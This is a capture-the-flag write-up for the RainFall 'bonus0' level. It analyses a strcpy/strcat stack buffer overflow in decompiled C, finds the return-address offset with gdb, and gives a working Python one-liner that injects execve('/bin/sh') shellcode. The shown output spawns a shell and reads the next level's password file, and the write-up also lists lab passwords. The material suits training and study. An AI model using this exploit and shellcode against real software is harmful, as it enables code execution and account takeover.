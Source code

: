 # **Bonus0**

## **Analysis**

**In `main()`:**

```c
    char	str[0x40 - 0x16]; // 0x2a = 42

	pp( str );
	puts( str );
	return (0);
```

**In `pp()`**

```c
    // Allocate 2 string of 20 characters
    char    str1[20];
    char    str2[20];
    // Put the first 20 characters of stdin on them
    // Won't end by a '\0' if stdin's len greater than 20 characters
    p( str1, separator );
    p( str2, separator );

    // Copy content of str1 into dest
    // Plus str2 if str1 hasn't '\0'
    strcpy( dest, str1 );

    // end dest with " \0"
    len = strlen( dest );
    dest[len] = " ";
    dest[len + 1] = 0;
    
    // Concat dest with str2
    strcat( dest, str2 );
```

```c
    char    buffer[0x1000]; // 4096

    puts( prompt );

    // Read stdin into buffer
    read( 0, buffer, 0x1000 ); // 4096
    
    // replace first occurence of '\n' by '\0'
    ret = strchr( buffer, '\n' );
    *ret = 0;
    
    // copy the first 20 characters into dest
    strncpy( dest, buffer, 0x14 ); // 20
```
___

## **Exploit**

Lets determine the offset
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
0123456789abcdefghij
 -
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
0123456789abcdefghijAAAABBBBCCCCDDDDEEEE�� AAAABBBBCCCCDDDDEEEE��

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()

 ❯ python3 offset.py 43
8
 ❯ python3 offset.py 44
12
```

OFFSET: 9

We will put the shellcode in the 4096 character buffer,
Let get its adress
```
(gdb) b *p+81
Breakpoint 1 at 0x8048505
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
4242

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe650:     52 '4'  50 '2'  52 '4'  50 '2'
(gdb) c
Continuing.
 -
ABCD

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe650:     65 'A'  66 'B'  67 'C'  68 'D'
```

0xbfffe650 + 96(0x60) = 0xbfffe6b0

96 = 9 + 4 + 83

Solution:
 * (4096) skip first string
 * (09) offset
 * (04) adress of shellcode in buffer [0xbfffe6b0]
 * (83) offset until shellcode, 96 - 9 - 4 = 83
 * (45) shellcode

```
bonus0@RainFall:~$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\xb0\xe6\xff\xbf" + "\x90" * 83 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > /tmp/bonus0 && cat /tmp/bonus0 - | ./bonus0
 -
 -
������������������������������������������� �����������������������
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

___

*Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*